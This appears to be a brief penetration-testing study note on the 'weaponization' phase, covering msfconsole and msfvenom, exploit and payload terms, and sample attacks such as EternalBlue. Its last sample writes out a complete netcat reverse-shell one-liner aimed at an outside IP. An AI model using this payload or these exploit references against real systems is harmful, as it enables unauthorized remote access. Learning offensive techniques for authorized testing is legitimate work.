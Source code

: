 
# 2-Weaponization

```
    INPUT             |      PROCESS                 |    TOOLS & TECHNIQUES                 |      OUTPUT
----------------------|------------------------------|---------------------------------------|------------------
    Information       |     Creation of Weapon       |       Vulnerability Repositories      |      Weapon
    Network map       |                              |       Development                     |      
        IPs           |                              |       msfconsole                      |
        Ports         |                              |       msfvenom                        |
        Services      |
        Firewalls     |
        Users         |
    Vulnerability     |            
```                                                
                                                    
[Weapon]             [Exploit]        An exploit is a code that is written to take advantage of a specific Vulnerability in a system.
                     [Payload]        Payload is the code that actually does something.    
                        [RS]         Reverse Shell that need 
                        [Malware]    Malicious Software
[Msfvenom]           Standalone payload generator
[Windows]            Weapon types: WSH, HTA, VBA, PSH


# Sample

- ms17-010 [CVE-2017-0143]
    - TOOLS       msfconsole     
    - Exploit     exploit/windows/smb/ms17_010_eternalblue 
    - Payload     windows/x64/shell/reverse_tcp
- Online Book Store 1.0 - Unauthenticated Remote Code Execution
    - TOOLS       Python   
    - Exploit     https://www.exploit-db.com/exploits/47887  
    - Payload     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.56.2 4444 > /tmp/f
